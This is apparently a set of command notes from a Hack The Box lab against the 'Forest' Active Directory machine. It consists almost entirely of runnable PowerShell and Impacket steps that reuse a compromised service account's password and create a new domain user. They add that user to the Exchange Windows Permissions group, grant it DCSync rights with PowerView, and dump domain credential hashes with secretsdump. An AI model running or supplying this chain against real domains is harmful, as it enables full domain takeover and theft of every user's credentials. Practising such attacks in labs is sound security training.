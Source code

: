 # ADD USER TO DOMAIN
Using compromised user svc-alfresco
$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\svc-alfresco', $SecPassword)
New-ADUser -Name 'naiame' -GivenName 'naiame' -Surname 'Naiame' -UserPrincipalName 'Naiame' -AccountPassword (ConvertTo-SecureString 'naiameS3Cur3' -AsPlainText -Force) -Enabled 1
Add-DomainGroupMember -Identity 'EXCHANGE WINDOWS PERMISSIONS' -Members 'naiame' -Credential $Cred -Verbose
Get-DomainGroupMember -Identity 'EXCHANGE WINDOWS PERMISSIONS'

# GRANT DCSync Permission to new user
Add-DomainObjectAcl -TargetIdentity naiame[Privileged user to grant rights] -PrincipalIdentity naiame[USER TO SYNC DC] -Rights DCSync -Verbose



upload PowerView.ps1
import-module .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB.local\svc-alfresco', $SecPassword)
 
New-ADUser -Name 'rea' -GivenName 'rea' -Surname 'REA' -UserPrincipalName 'rea' -AccountPassword (ConvertTo-SecureString 'Spymd33reamn*' -AsPlainText -Force) -Enabled 1
 
Add-DomainGroupMember -Identity 'EXCHANGE WINDOWS PERMISSIONS' -Members 'rea' -Credential $Cred -Verbose
Get-DomainGroupMember -Identity 'EXCHANGE WINDOWS PERMISSIONS'
 
 
$SecPassword = ConvertTo-SecureString 'Spymd33reamn*' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\rea', $SecPassword)
 
Add-DomainObjectAcl -TargetIdentity htb -PrincipalIdentity rea -Rights DCSync  -Credential $Cred -Verbose
 
 
secretsdump -dc-ip 10.10.10.161  htb.local/rea@forest -target-ip 10.10.10.161